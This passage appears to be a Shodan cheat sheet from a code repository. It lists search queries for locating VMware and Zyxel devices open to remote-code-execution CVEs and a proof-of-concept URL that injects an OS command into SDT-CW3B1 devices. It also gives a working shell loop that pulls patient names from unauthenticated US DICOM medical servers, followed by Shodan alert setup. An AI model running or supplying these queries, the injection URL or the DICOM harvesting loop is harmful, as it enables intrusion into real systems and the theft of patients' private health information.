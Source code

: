 Search for devices vulnerable to CVE-2022-22954:

VMware Workspace ONE Access and Identity Manager contain a remote code execution vulnerability due to server-side template injection. A malicious actor with network access can trigger a server-side template injection that may result in remote code execution.

```
http.favicon.hash:-1250474341
```
## Exposed DICOM Servers

Count patient names in US exposed DICOM medical servers with no authentication

```bash
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```
## Zyxel Firewall Unauthenticated Remote Command Injection

Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.

```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)

```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

## Setting Up Shodan for Target Monitoring

1. Determine your home IP or target of interest's IP address

```bash
root@RoseSecurity# shodan myip
69.69.69.69
```

2. Create network alert

```bash
root@RoseSecurity# shodan create home 69.69.69.69
Successfully created network alert!
Alert ID: 34W09AETJKAHEDPX
```

3. Confirm that alert is generated

```bash
root@RoseSecurity# shodan alert info home 
home
Created: 2022-03-01:69:69:69000
Notifications: Disabled

Network Range(s):
> 69.69.69.69
Triggers:
> any
```

